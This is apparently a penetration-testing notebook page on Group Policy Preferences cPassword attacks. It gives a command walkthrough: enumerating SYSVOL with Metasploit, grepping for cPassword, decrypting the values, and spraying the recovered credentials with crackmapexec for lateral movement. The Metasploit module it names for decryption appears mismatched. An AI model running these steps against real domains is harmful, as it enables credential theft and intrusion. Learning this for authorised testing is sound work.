

repository: RayenManai/MyHackBook · page: Active Directory/attacking-ad/post-compromise-attacks/gpp-cPassword-attacks.html · generator: sphinx

# GPP cPassword Attacks

- Group Policy Preferences (GPP) allowed administrators to create policies with embedded credentials for tasks like service account management.
- These credentials were encrypted and stored in a "cPassword" field within Group Policy XML files.
- Microsoft's encryption key was accidentally released publicly, allowing anyone to decrypt the cPassword values.
- Patched in MS14-025 (KB2962486), but the patch only prevents creation of new encrypted credentials—it does not remove or decrypt existing vulnerable files.
- This makes GPP cPassword attacks highly relevant on penetration tests, as legacy deployments often retain old GPP files in SYSVOL.

## Walkthrough

1. Enumerate GPP Files from SYSVOL

Use Metasploit's `smb_enum_gpp` module to access the SYSVOL of the domain controller and extract Group Policy Preference files:

```bash
msfconsole
use auxiliary/scanner/smb/smb_enum_gpp
set RHOSTS <domain_controller_ip>
set SMBUser <domain_user>
set SMBPass <domain_password>
set SMBDomain <domain_name>
run
```

Alternatively, you can manually mount SYSVOL and search for XML files containing cPassword:

```bash
mount -t cifs //<domain_controller>\SYSVOL /mnt/sysvol -o username=<user>,password=<pass>
grep -r "cPassword" /mnt/sysvol
```

2. Decrypt cPassword Values

Once you identify files with cPassword entries, use tools to decrypt them. Common approaches include:

- **Using Metasploit decrypt module**:

  ```bash
  use post/windows/gather/credentials/credential_collector
  ```

- **Using impacket-Get-GPPPassword** or similar custom tools that implement the known decryption algorithm.

- **Using CyberChef** or **gpp-decrypt** online tools (not recommended for sensitive environments).

3. Validate and Use Credentials

Test the decrypted credentials on domain systems:

```bash
crackmapexec smb <target_range> -u <username> -p <decrypted_password> -d <domain>
```

Apply lateral movement techniques with the recovered credentials.
